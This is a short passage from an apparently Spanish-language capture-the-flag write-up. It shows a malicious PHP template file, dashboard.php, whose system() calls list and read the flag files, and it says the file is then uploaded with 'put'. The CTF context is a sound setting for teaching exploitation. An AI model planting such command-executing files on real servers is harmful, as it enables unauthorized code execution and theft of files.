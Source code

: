 ![alt text](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-21.png)

Creamos nuestro archivo template malicioso llamado dashboard.php, este contiene dos comandos para listar archivos y otro para leer la flag.

```php
<?php
system("ls -la /flag*");
system("cat /flag*");
?>
```

Se sube el archivo usando put dashboard.php

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-17.png)
